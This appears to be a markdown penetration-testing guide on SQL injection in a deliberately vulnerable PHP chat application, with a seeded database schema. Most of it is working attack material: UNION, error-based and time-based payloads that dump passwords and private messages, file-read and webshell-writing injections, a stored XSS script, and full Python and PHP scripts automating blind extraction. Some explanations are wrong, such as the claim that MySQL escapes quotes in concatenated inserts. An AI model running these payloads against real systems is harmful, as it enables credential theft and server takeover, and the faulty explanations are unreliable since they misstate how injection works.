



# Chat Application SQL Injection Penetration Testing Guide

## Understanding Second-Order SQL Injection in Chat Applications

---

## Your Application Architecture



## Setting Up Your Test Environment

### Database Schema

```sql
-- Create the chat database
CREATE DATABASE chat_app;
USE chat_app;

-- Users table
CREATE TABLE users (
    id INT PRIMARY KEY AUTO_INCREMENT,
    username VARCHAR(50) UNIQUE NOT NULL,
    password VARCHAR(255) NOT NULL,
    email VARCHAR(100),
    role ENUM('user', 'admin', 'moderator') DEFAULT 'user',
    api_key VARCHAR(64),
    secret_notes TEXT,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

-- Messages table
CREATE TABLE messages (
    id INT PRIMARY KEY AUTO_INCREMENT,
    user_id INT,
    username VARCHAR(50),
    message_text TEXT,
    room VARCHAR(50),
    ip_address VARCHAR(45),
    is_encrypted BOOLEAN DEFAULT FALSE,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP,
    FOREIGN KEY (user_id) REFERENCES users(id)
);

-- Private messages table
CREATE TABLE private_messages (
    id INT PRIMARY KEY AUTO_INCREMENT,
    sender_id INT,
    receiver_id INT,
    message_text TEXT,
    is_read BOOLEAN DEFAULT FALSE,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

-- Admin logs table (contains sensitive data)
CREATE TABLE admin_logs (
    id INT PRIMARY KEY AUTO_INCREMENT,
    admin_id INT,
    action VARCHAR(255),
    details TEXT,
    ip_address VARCHAR(45),
    timestamp TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

-- Insert test data
INSERT INTO users (username, password, email, role, api_key, secret_notes) VALUES
('admin', 'SuperSecret@123', 'admin@chatapp.com', 'admin', 'API-KEY-ADMIN-12345', 'Server passwords: MySQL=root:rootpass123, SSH=admin:sshpass456'),
('john_doe', 'johnpass123', 'john@email.com', 'user', NULL, NULL),
('jane_smith', 'janepass456', 'jane@email.com', 'user', NULL, NULL),
('moderator1', 'modpass789', 'mod@chatapp.com', 'moderator', 'API-KEY-MOD-67890', 'Moderation tools password: mod123');

INSERT INTO admin_logs (admin_id, action, details, ip_address) VALUES
(1, 'System Configuration', 'Updated database credentials: root/admin123', '192.168.1.100'),
(1, 'User Management', 'Created backup admin account: backup_admin/backup123', '192.168.1.100'),
(1, 'API Setup', 'Generated new API keys for external services', '192.168.1.100');

-- Insert some normal messages
INSERT INTO messages (user_id, username, message_text, room, ip_address) VALUES
(1, 'admin', 'Welcome to the chat!', 'general', '192.168.1.100'),
(2, 'john_doe', 'Hey everyone!', 'general', '192.168.1.101'),
(3, 'jane_smith', 'Hello John!', 'general', '192.168.1.102');
```

### Vulnerable PHP Chat Application

```php
<?php
// config.php - Database configuration
$host = 'localhost';
$dbname = 'chat_app';
$username = 'root';
$password = '';

try {
    $pdo = new PDO("mysql:host=$host;dbname=$dbname", $username, $password);
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch(PDOException $e) {
    die("Connection error");
}
?>

<!-- chat.php - Main chat interface -->
<?php
require_once 'config.php';
session_start();

// Handle new message submission (VULNERABLE)
if (isset($_POST['send_message'])) {
    $message = $_POST['message'];
    $room = $_POST['room'];
    $username = $_SESSION['username'];
    $user_id = $_SESSION['user_id'];
    $ip = $_SERVER['REMOTE_ADDR'];
    
    // VULNERABLE: Direct concatenation
    $query = "INSERT INTO messages (user_id, username, message_text, room, ip_address) 
              VALUES ('$user_id', '$username', '$message', '$room', '$ip')";
    
    try {
        $pdo->exec($query);
        echo "Message sent!";
    } catch(PDOException $e) {
        echo "Error: " . $e->getMessage(); // VULNERABLE: Exposes errors
    }
}

// Handle search (VULNERABLE)
if (isset($_GET['search'])) {
    $search = $_GET['search'];
    
    // VULNERABLE: Direct concatenation in SELECT
    $query = "SELECT m.id, m.username, m.message_text, m.room, m.created_at, 
              u.email, u.role 
              FROM messages m 
              LEFT JOIN users u ON m.user_id = u.id 
              WHERE m.message_text LIKE '%$search%' 
              OR m.username LIKE '%$search%' 
              ORDER BY m.created_at DESC";
    
    echo "<h3>Search Query:</h3>";
    echo "<pre>" . htmlspecialchars($query) . "</pre>";
    
    try {
        $result = $pdo->query($query);
        
        echo "<h3>Results:</h3>";
        while ($row = $result->fetch(PDO::FETCH_ASSOC)) {
            echo "<div style='border:1px solid #ccc; margin:5px; padding:5px;'>";
            echo "<strong>User:</strong> " . htmlspecialchars($row['username']) . " ";
            echo "<strong>Role:</strong> " . htmlspecialchars($row['role']) . "<br>";
            echo "<strong>Email:</strong> " . htmlspecialchars($row['email']) . "<br>";
            echo "<strong>Message:</strong> " . htmlspecialchars($row['message_text']) . "<br>";
            echo "<strong>Room:</strong> " . htmlspecialchars($row['room']) . "<br>";
            echo "</div>";
        }
    } catch(PDOException $e) {
        echo "<div style='color:red;'>Error: " . $e->getMessage() . "</div>";
    }
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>Chat Application - Test</title>
</head>
<body>
    <h2>Chat Room</h2>
    
    <!-- Send Message Form -->
    <form method="POST">
        <textarea name="message" rows="3" cols="50" placeholder="Type your message..."></textarea><br>
        <select name="room">
            <option value="general">General</option>
            <option value="tech">Tech</option>
            <option value="random">Random</option>
        </select>
        <input type="submit" name="send_message" value="Send">
    </form>
    
    <hr>
    
    <!-- Search Form -->
    <h3>Search Messages</h3>
    <form method="GET">
        <input type="text" name="search" placeholder="Search messages...">
        <input type="submit" value="Search">
    </form>
    
    <!-- Display Recent Messages -->
    <h3>Recent Messages</h3>
    <?php
    // VULNERABLE: Also vulnerable query for display
    $query = "SELECT * FROM messages ORDER BY created_at DESC LIMIT 20";
    $result = $pdo->query($query);
    while ($row = $result->fetch(PDO::FETCH_ASSOC)) {
        echo htmlspecialchars($row['username']) . ": " . 
             htmlspecialchars($row['message_text']) . "<br>";
    }
    ?>
</body>
</html>
```

---

## Part 1: Understanding Second-Order SQL Injection

### How It Works in Chat Applications



### The Attack Chain Explained

```sql
-- STEP 1: What gets stored
-- When you send a chat message like: Hello' UNION SELECT 1,2,3 --
-- The database stores exactly: Hello' UNION SELECT 1,2,3 --

-- The INSERT query becomes:
INSERT INTO messages (user_id, username, message_text, room, ip_address) 
VALUES ('1', 'admin', 'Hello'' UNION SELECT 1,2,3 --', 'general', '192.168.1.1');

-- MySQL escapes single quotes in VALUES, so it's stored as literal text
-- The message_text column now contains: Hello' UNION SELECT 1,2,3 --

-- STEP 2: When you search
-- Search for: Hello
-- The SELECT query becomes:
SELECT * FROM messages 
WHERE message_text LIKE '%Hello%' 
   OR username LIKE '%Hello%';

-- This returns the message normally because 'Hello' matches
-- The stored SQL code is NOT executed here because it's just data

-- BUT WAIT - This is where it gets interesting...
```

## Part 2: Real Attack Scenarios That DO Work

### Scenario 1: Direct Search Injection (IMMEDIATE)

```sql
-- This attack works when you search with malicious text directly

-- Search input: ' UNION SELECT 1,username,password,email,role,5,6,7 FROM users --
-- The query becomes:
SELECT m.id, m.username, m.message_text, m.room, m.created_at, 
       u.email, u.role 
FROM messages m 
LEFT JOIN users u ON m.user_id = u.id 
WHERE m.message_text LIKE '%' UNION SELECT 1,username,password,email,role,5,6,7 FROM users -- %'
   OR m.username LIKE '%...%'

-- This UNION adds user credentials to search results!
-- Column count must match: id, username, message_text, room, created_at, email, role
```

### Scenario 2: Stored XSS + SQL Injection Combo

```sql
-- What you store in chat DOES matter for display contexts

-- Send this chat message:


-- Or send this to test SQL injection via search parameter manipulation:
<script>
fetch('/search.php?search='+encodeURIComponent("' UNION SELECT password FROM users WHERE username='admin' --"));
</script>

-- When anyone views the chat (not even searching), this script:
-- 1. Makes them search for SQL injection payload
-- 2. Returns admin password in search results
```

### Scenario 3: Multi-step Attack That WORKS

```sql
-- STEP 1: Send a chat message containing a unique marker
-- Message: ___UNIQUE_MARKER_12345___ Normal chat text

-- STEP 2: Now this search injection works:
___UNIQUE_MARKER_12345___' UNION SELECT 1,2,3,4,5,6,7 FROM users WHERE '1'='1

-- The query becomes:
SELECT ... FROM messages m LEFT JOIN users u ON m.user_id = u.id 
WHERE m.message_text LIKE '%___UNIQUE_MARKER_12345___' UNION SELECT 1,2,3,4,5,6,7 FROM users WHERE '1'='1%'

-- Another variation:
___UNIQUE_MARKER_12345___' AND 1=0 UNION SELECT 1,GROUP_CONCAT(username,':',password),3,4,5,6,7 FROM users --

-- This works because:
-- 1. ___UNIQUE_MARKER_12345___ matches your stored message
-- 2. The AND 1=0 makes the original query return nothing
-- 3. UNION adds attacker's desired data
```

### Scenario 4: Time-Based Blind via Stored Data

```sql
-- STEP 1: Store messages that help with blind extraction

-- Send these messages to help with character comparison:
-- Message 1: CHAR_COMPARE_a
-- Message 2: CHAR_COMPARE_b
-- Continue for all characters...

-- STEP 2: Use in search to extract data via timing:
___MARKER___' AND IF(
    ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)) > 97,
    SLEEP(3),
    0
) AND '1'='1

-- If page loads slowly (>3 seconds), first character > 'a'
-- If loads fast, first character <= 'a'

-- This works because:
-- 1. ___MARKER___ matches your test message
-- 2. The IF condition checks password character
-- 3. SLEEP causes delay if condition is true
```

### Scenario 5: Error-Based Extraction

```sql
-- Search with this to extract data via error messages:
___MARKER___' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT GROUP_CONCAT(username,':',password) FROM users))) AND '1'='1

-- The query becomes:
SELECT ... FROM messages m LEFT JOIN users u ON m.user_id = u.id 
WHERE m.message_text LIKE '%___MARKER___' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT GROUP_CONCAT(username,':',password) FROM users))) AND '1'='1%'

-- If error messages are shown:
-- XPATH error: '~admin:SuperSecret@123,john_doe:johnpass123,...'

-- This extracts ALL usernames and passwords!
```

---

## Part 3: Complete Attack Walkthrough

### Attack 1: Extracting User Credentials

```sql
-- STEP 1: First, find a chat message to anchor to
-- Send this message:
ATK_TEST_001 just testing

-- STEP 2: Determine column count in search query
-- Search for:
ATK_TEST_001' ORDER BY 1 --
ATK_TEST_001' ORDER BY 2 --
ATK_TEST_001' ORDER BY 3 --
ATK_TEST_001' ORDER BY 4 --
ATK_TEST_001' ORDER BY 5 --
ATK_TEST_001' ORDER BY 6 --
ATK_TEST_001' ORDER BY 7 --
ATK_TEST_001' ORDER BY 8 --  ← Error! So 7 columns

-- STEP 3: Find visible columns
ATK_TEST_001' UNION SELECT 1,2,3,4,5,6,7 --

-- The output shows which numbers appear in results
-- Mark the visible positions

-- STEP 4: Extract database name
ATK_TEST_001' UNION SELECT 1,database(),3,4,5,6,7 --

-- Result shows: chat_app

-- STEP 5: Extract table names
ATK_TEST_001' UNION SELECT 1,GROUP_CONCAT(table_name),3,4,5,6,7 FROM information_schema.tables WHERE table_schema='chat_app' --

-- Result: users,messages,private_messages,admin_logs

-- STEP 6: Extract column names from users table
ATK_TEST_001' UNION SELECT 1,GROUP_CONCAT(column_name),3,4,5,6,7 FROM information_schema.columns WHERE table_name='users' --

-- Result: id,username,password,email,role,api_key,secret_notes,created_at

-- STEP 7: Extract all user credentials
ATK_TEST_001' UNION SELECT 1,CONCAT(username,':',password,':',email,':',role),3,4,5,6,7 FROM users --

-- Result shows:
-- admin:SuperSecret@123:admin@chatapp.com:admin
-- john_doe:johnpass123:john@email.com:user
-- jane_smith:janepass456:jane@email.com:user

-- STEP 8: Extract admin secrets
ATK_TEST_001' UNION SELECT 1,secret_notes,3,4,5,6,7 FROM users WHERE username='admin' --

-- Result: Server passwords: MySQL=root:rootpass123, SSH=admin:sshpass456
```

### Attack 2: Extracting Private Messages

```sql
-- STEP 1: Send anchor message
PRIVATE_TEST_001

-- STEP 2: Extract private messages
PRIVATE_TEST_001' UNION SELECT 1,CONCAT(sender_id,':',receiver_id,':',message_text),3,4,5,6,7 FROM private_messages --

-- STEP 3: Extract messages for specific users
PRIVATE_TEST_001' UNION SELECT 1,CONCAT('From:',sender_id,' To:',receiver_id,' Msg:',message_text),3,4,5,6,7 FROM private_messages WHERE sender_id=1 OR receiver_id=1 --
```

### Attack 3: Admin Log Extraction

```sql
-- Access sensitive admin logs
PRIVATE_TEST_001' UNION SELECT 1,CONCAT('Admin:',admin_id,' Action:',action,' Details:',details),3,4,5,6,7 FROM admin_logs --

-- This reveals:
-- Admin:1 Action:System Configuration Details:Updated database credentials: root/admin123
-- Admin:1 Action:User Management Details:Created backup admin account: backup_admin/backup123
```

### Attack 4: File System Access

```sql
-- If MySQL has FILE privilege
PRIVATE_TEST_001' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4,5,6,7 --

-- Read PHP source code
PRIVATE_TEST_001' UNION SELECT 1,LOAD_FILE('/var/www/html/config.php'),3,4,5,6,7 --

-- Write a webshell
'; SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php' --
```

---

## Part 4: Automated Testing Scripts

### Python Testing Script

```python
#!/usr/bin/env python3
"""
chat_sqli_tester.py
Tests chat application for SQL injection vulnerabilities
"""

import requests
import time
import json
from urllib.parse import quote

class ChatAppTester:
    def __init__(self, base_url):
        self.base_url = base_url
        self.session = requests.Session()
        self.session.headers.update({
            'User-Agent': 'Mozilla/5.0 SQLi Tester'
        })
        self.anchor_messages = []
        
    def login(self, username, password):
        """Login to the chat application"""
        # Adjust this based on your login mechanism
        data = {'username': username, 'password': password}
        response = self.session.post(f"{self.base_url}/login.php", data=data)
        return response.status_code == 200
    
    def send_message(self, message, room='general'):
        """Send a chat message"""
        data = {
            'message': message,
            'room': room,
            'send_message': 'Send'
        }
        response = self.session.post(f"{self.base_url}/chat.php", data=data)
        return response
    
    def search_messages(self, query):
        """Search for messages"""
        params = {'search': query}
        response = self.session.get(f"{self.base_url}/chat.php", params=params)
        return response
    
    def create_anchor_messages(self):
        """Create unique anchor messages for testing"""
        anchor_id = int(time.time())
        
        anchors = [
            f"ANCHOR_{anchor_id}_A",
            f"ANCHOR_{anchor_id}_B",
            f"ANCHOR_{anchor_id}_C",
            f"ANCHOR_{anchor_id}_D",
            f"ANCHOR_{anchor_id}_E"
        ]
        
        for anchor in anchors:
            self.send_message(anchor)
            self.anchor_messages.append(anchor)
            print(f"[+] Sent anchor: {anchor}")
            time.sleep(0.5)
        
        return anchors
    
    def test_column_count(self, anchor):
        """Determine number of columns in search query"""
        print(f"\n[+] Testing column count with anchor: {anchor}")
        
        for i in range(1, 15):
            payload = f"{anchor}' ORDER BY {i} --"
            response = self.search_messages(payload)
            
            if "error" in response.text.lower() or response.status_code != 200:
                print(f"[+] Column count found: {i-1}")
                return i - 1
            time.sleep(0.3)
        
        return None
    
    def test_union_injection(self, anchor, columns):
        """Test UNION-based injection"""
        print(f"\n[+] Testing UNION injection with {columns} columns")
        
        # Create NULL values for all columns
        nulls = ",".join(["NULL"] * columns)
        payload = f"{anchor}' UNION SELECT {nulls} --"
        response = self.search_messages(payload)
        
        # Find visible columns
        for i in range(1, columns + 1):
            values = ["NULL"] * columns
            values[i-1] = str(i)
            payload = f"{anchor}' UNION SELECT {','.join(values)} --"
            response = self.search_messages(payload)
            
            if str(i) in response.text:
                print(f"[+] Column {i} is visible")
                time.sleep(0.3)
    
    def extract_data(self, anchor, columns, visible_col, query):
        """Extract data using visible column"""
        values = ["NULL"] * columns
        values[visible_col-1] = f"({query})"
        payload = f"{anchor}' UNION SELECT {','.join(values)} --"
        response = self.search_messages(payload)
        return response.text
    
    def run_full_test(self):
        """Run comprehensive test suite"""
        print("[*] Starting Chat Application SQL Injection Test\n")
        
        # Phase 1: Basic testing
        anchors = self.create_anchor_messages()
        anchor = anchors[0]
        
        # Phase 2: Column count
        columns = self.test_column_count(anchor)
        if not columns:
            print("[-] Could not determine column count")
            return
        
        # Phase 3: Test UNION injection
        self.test_union_injection(anchor, columns)
        
        # Phase 4: Data extraction attempts
        print("\n[+] Attempting data extraction...")
        
        extraction_queries = [
            ("Database Name", "database()"),
            ("Database User", "user()"),
            ("MySQL Version", "@@version"),
            ("Tables List", "SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()"),
        ]
        
        for name, query in extraction_queries:
            print(f"\n[*] Extracting: {name}")
            result = self.extract_data(anchor, columns, 2, query)
            
            # Parse and display result
            if anchor in result:
                print(f"[+] Successfully extracted {name}")
            time.sleep(0.5)
        
        # Phase 5: Sensitive data extraction
        print("\n[+] Attempting sensitive data extraction...")
        
        sensitive_queries = [
            "SELECT GROUP_CONCAT(username,':',password) FROM users",
            "SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='users'",
            "SELECT secret_notes FROM users WHERE username='admin' LIMIT 1",
            "SELECT GROUP_CONCAT(message_text) FROM private_messages",
        ]
        
        for query in sensitive_queries:
            result = self.extract_data(anchor, columns, 2, query)
            if len(result) > 1000:  # Response size indicates success
                print(f"[!] POTENTIAL DATA LEAK with query: {query}")
            time.sleep(1)
    
    def test_blind_injection(self):
        """Test blind SQL injection via timing"""
        print("\n[+] Testing Blind SQL Injection (Time-based)")
        
        anchor = self.anchor_messages[0]
        
        # Test SLEEP function
        payload = f"{anchor}' AND SLEEP(3) AND '1'='1"
        
        start = time.time()
        response = self.search_messages(payload)
        elapsed = time.time() - start
        
        print(f"[*] Response time: {elapsed:.2f} seconds")
        if elapsed > 2.5:
            print("[!] TIME-BASED BLIND SQLi DETECTED!")
            
        # Extract password length
        for length in range(1, 30):
            payload = f"{anchor}' AND IF(LENGTH((SELECT password FROM users WHERE username='admin'))={length},SLEEP(2),0) AND '1'='1"
            
            start = time.time()
            self.search_messages(payload)
            elapsed = time.time() - start
            
            if elapsed > 1.5:
                print(f"[+] Admin password length: {length}")
                break
            time.sleep(0.3)
    
    def test_error_based(self):
        """Test error-based SQL injection"""
        print("\n[+] Testing Error-Based SQL Injection")
        
        anchor = self.anchor_messages[0]
        
        payloads = [
            f"{anchor}' AND EXTRACTVALUE(1,CONCAT(0x7e,database())) AND '1'='1",
            f"{anchor}' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()))) AND '1'='1",
            f"{anchor}' AND UPDATEXML(1,CONCAT(0x7e,@@version),1) AND '1'='1",
        ]
        
        for payload in payloads:
            response = self.search_messages(payload)
            
            if "XPATH" in response.text or "syntax" in response.text:
                print(f"[!] ERROR-BASED SQLi DETECTED!")
                print(f"[+] Error output: {response.text[:200]}")
            time.sleep(0.5)

# Run the test
if __name__ == "__main__":
    tester = ChatAppTester("http://localhost/chat_app")
    
    # Login first (adjust credentials)
    if tester.login("test_user", "test_password"):
        print("[+] Logged in successfully")
        tester.run_full_test()
        tester.test_blind_injection()
        tester.test_error_based()
    else:
        print("[-] Login failed")
```

### PHP Test Harness

```php
<?php
// chat_injection_tester.php
// Run this to automatically test your application

class ChatInjectionTester {
    private $base_url;
    private $session;
    
    public function __construct($url) {
        $this->base_url = $url;
        $this->session = curl_init();
        curl_setopt($this->session, CURLOPT_RETURNTRANSFER, true);
        curl_setopt($this->session, CURLOPT_COOKIEJAR, 'cookies.txt');
        curl_setopt($this->session, CURLOPT_COOKIEFILE, 'cookies.txt');
    }
    
    public function sendMessage($message) {
        $data = [
            'message' => $message,
            'room' => 'general',
            'send_message' => 'Send'
        ];
        
        curl_setopt($this->session, CURLOPT_URL, $this->base_url . '/chat.php');
        curl_setopt($this->session, CURLOPT_POST, true);
        curl_setopt($this->session, CURLOPT_POSTFIELDS, http_build_query($data));
        
        return curl_exec($this->session);
    }
    
    public function searchMessages($query) {
        curl_setopt($this->session, CURLOPT_URL, 
                   $this->base_url . '/chat.php?search=' . urlencode($query));
        curl_setopt($this->session, CURLOPT_POST, false);
        
        return curl_exec($this->session);
    }
    
    public function runTests() {
        echo "<h2>Chat Application SQL Injection Test Results</h2>";
        
        // Test 1: Create anchor message
        $anchor = "TEST_" . time();
        echo "<p>Creating anchor message: $anchor</p>";
        $this->sendMessage($anchor);
        sleep(1);
        
        // Test 2: Basic SQL injection in search
        $payloads = [
            "$anchor' AND 1=1 --" => "Boolean True Test",
            "$anchor' AND 1=2 --" => "Boolean False Test",
            "$anchor' UNION SELECT 1,2,3,4,5,6,7 --" => "UNION Column Count",
            "$anchor' AND SLEEP(2) --" => "Time-Based Test"
        ];
        
        foreach ($payloads as $payload => $test_name) {
            echo "<p>Testing: $test_name</p>";
            echo "<pre>Payload: $payload</pre>";
            
            $start = microtime(true);
            $response = $this->searchMessages($payload);
            $time = microtime(true) - $start;
            
            echo "<p>Response time: " . round($time, 2) . "s</p>";
            echo "<p>Response size: " . strlen($response) . " bytes</p>";
            
            if ($time > 1.5) {
                echo "<p style='color:red;'>⚠ TIME-BASED INJECTION DETECTED!</p>";
            }
            
            if (strpos($response, 'SQL') !== false || 
                strpos($response, 'syntax') !== false) {
                echo "<p style='color:red;'>⚠ ERROR-BASED INJECTION DETECTED!</p>";
            }
            
            echo "<hr>";
        }
    }
}

// Run the tester
$tester = new ChatInjectionTester("http://localhost/chat_app");
$tester->runTests();
?>
```

---

## Part 5: What Actually Works - Results Analysis

### Test Matrix: What Works and What Doesn't

```sql
-- SCENARIO 1: Storing SQL in message, then searching for normal text
-- DOES NOT directly exploit, but creates anchor point

-- Send: "Hello world"
-- Search: "Hello"
-- Result: Normal message returned, no injection executed ✓ SAFE

-- SCENARIO 2: Storing SQL in message, then searching for the SQL text
-- DOES NOT WORK directly

-- Send: "' UNION SELECT password FROM users --"
-- Search: "' UNION SELECT password FROM users --"
-- Result: Only finds the stored message text, doesn't execute it ✓ SAFE

-- SCENARIO 3: Searching with SQL injection payload
-- DOES WORK! This is the REAL vulnerability

-- Search: anything' UNION SELECT 1,2,3,4,5,6,7 --
-- The query becomes:
SELECT ... FROM messages WHERE message_text LIKE '%anything'' UNION SELECT 1,2,3,4,5,6,7 --%'
-- This executes the UNION and adds columns! ⚠ VULNERABLE

-- SCENARIO 4: Using stored message as anchor
-- DOES WORK! Combined attack

-- Step 1: Send unique message: "ANCHOR_12345"
-- Step 2: Search: "ANCHOR_12345' UNION SELECT 1,CONCAT(username,':',password),3,4,5,6,7 FROM users --"
-- Result: The ANCHOR_12345 matches your stored message
--         The UNION adds user credentials to results! ⚠ VULNERABLE

-- SCENARIO 5: Multi-statement injection (if supported)
-- DOES WORK if MySQL allows stacked queries

-- Send: "hello'); DROP TABLE messages; --"
-- If INSERT didn't properly escape, this could execute DROP! ⚠ DANGEROUS
```

### Why Stored SQL Usually Doesn't Execute

```php
<?php
// Understanding why stored injection is different

// PHASE 1: Storing the message
$user_message = "Hello' UNION SELECT password FROM users --";

// Vulnerable INSERT:
$query = "INSERT INTO messages (message_text) VALUES ('$user_message')";

// MySQL automatically escapes single quotes in VALUES:
// INSERT INTO messages (message_text) VALUES ('Hello\' UNION SELECT password FROM users --')
// The backslash escapes the quote, storing it as literal text
// Database now contains: Hello' UNION SELECT password FROM users --

// PHASE 2: Searching (this is where it gets dangerous)
$search = "Hello' UNION SELECT 1,2,3 FROM users --";

// Vulnerable SELECT:
$query = "SELECT * FROM messages WHERE message_text LIKE '%$search%'";

// This becomes:
// SELECT * FROM messages WHERE message_text LIKE '%Hello' UNION SELECT 1,2,3 FROM users --%'
//                         ^^^^^^^^^^^^                              ^^^^^^^^^^^^^^^^^^^^^^
//                         First query                              Second query (INJECTED!)
//
// The UNION adds the second SELECT results to the output!
// THIS IS WHY SEARCH INJECTION WORKS BUT STORED TEXT DOESN'T
?>
```

---

## Part 6: Complete Proof of Concept Attacks

### PoC 1: Extract All User Credentials via Search

```sql
-- Create a test message first:
-- Send message: CREDS_TEST_MARKER

-- Now search for:
CREDS_TEST_MARKER' AND 1=0 UNION SELECT 1,CONCAT('USER:',username,'|PASS:',password,'|EMAIL:',email,'|ROLE:',role),3,4,5,6,7 FROM users --

-- Exact query that executes:
SELECT m.id, m.username, m.message_text, m.room, m.created_at, u.email, u.role 
FROM messages m 
LEFT JOIN users u ON m.user_id = u.id 
WHERE m.message_text LIKE '%CREDS_TEST_MARKER' AND 1=0 UNION SELECT 1,CONCAT('USER:',username,'|PASS:',password,'|EMAIL:',email,'|ROLE:',role),3,4,5,6,7 FROM users -- %'

-- This returns:
-- USER:admin|PASS:SuperSecret@123|EMAIL:admin@chatapp.com|ROLE:admin
-- USER:john_doe|PASS:johnpass123|EMAIL:john@email.com|ROLE:user
-- USER:jane_smith|PASS:janepass456|EMAIL:jane@email.com|ROLE:user
```

### PoC 2: Blind Extraction Character by Character

```python
#!/usr/bin/env python3
"""
blind_extraction.py - Extract admin password character by character
"""

import requests
import time

base_url = "http://localhost/chat_app/chat.php"
session = requests.Session()

def search_with_payload(payload):
    """Execute search and return response time"""
    start = time.time()
    response = session.get(base_url, params={'search': payload})
    elapsed = time.time() - start
    return elapsed, response.text

def extract_password(length):
    """Extract password character by character"""
    password = ""
    chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()'
    
    for pos in range(1, length + 1):
        for char in chars:
            # Time-based blind injection
            payload = f"ANCHOR_12345' AND IF(SUBSTRING((SELECT password FROM users WHERE username='admin'),{pos},1)='{char}',SLEEP(2),0) AND '1'='1"
            
            elapsed, _ = search_with_payload(payload)
            
            if elapsed > 1.5:
                password += char
                print(f"[+] Found character {pos}: {char} -> Password so far: {password}")
                break
            time.sleep(0.2)  # Rate limiting
    
    return password

# First, determine password length
for length in range(1, 30):
    payload = f"ANCHOR_12345' AND IF(LENGTH((SELECT password FROM users WHERE username='admin'))={length},SLEEP(2),0) AND '1'='1"
    elapsed, _ = search_with_payload(payload)
    
    if elapsed > 1.5:
        print(f"[+] Password length: {length}")
        admin_password = extract_password(length)
        print(f"\n[!] Admin password: {admin_password}")
        break
    time.sleep(0.2)
```

### PoC 3: Read Server Files

```sql
-- If FILE privilege is available:

-- Read /etc/passwd
